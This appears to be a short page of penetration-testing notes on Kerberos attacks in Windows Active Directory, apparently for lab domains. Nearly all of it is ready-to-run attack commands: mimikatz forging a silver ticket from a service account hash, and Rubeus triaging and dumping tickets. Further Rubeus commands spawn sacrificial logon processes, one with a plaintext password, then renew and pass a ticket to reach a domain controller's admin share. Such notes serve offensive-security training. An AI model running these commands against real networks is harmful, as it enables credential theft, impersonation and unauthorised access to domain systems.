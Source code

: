 ### <mark style="color:yellow;">Silver Ticket from Windows</mark>

```powershell
# Get SID
Import-Module .\PowerView.ps1
Get-DomainSID
```

Create silver ticket. Need hash of Service Account

```powershell
.\mimikatz.exe privilege::debug "kerberos::golden /domain:inlanefreight.local /sid:S-1-5-21-1870146311-1183348186-593267556 /rc4:027c6604526b7b16a22e320b76e54a5b /user:Administrator /service:CIFS /target:SQL01.zencorp.local /ptt" exit
```

### <mark style="color:yellow;">Sacrificial Processes</mark>

{% hint style="info" %}
A Sacrificial Process creates a new Logon Session, isolating manipulated tickets and preventing impact on critical sessions, so its safer than causing outage. Needs admin rights
{% endhint %}

Check all tickets and extract a krbtgt/ZENCORP.LOCAL service TGT

```powershell
.\Rubeus.exe triage
```

Extract ticket using LUID

```powershell
.\Rubeus.exe dump /luid:0xc2cd0 /service:krbtgt /nowrap
```

Use createnetonly to create sacrificial process.

```powershell
.\Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

# Authenticated
.\Rubeus.exe createnetonly /program:powershell.exe /username:holly /password:'Password123!' /domain:zencorp.local /show
```

Within new cmd window

```powershell
Rubeus.exe renew /ticket:doIFVjCCBVKgAwIBBaEDA<SNIP> /ptt
dir \\dc01\\c$
```









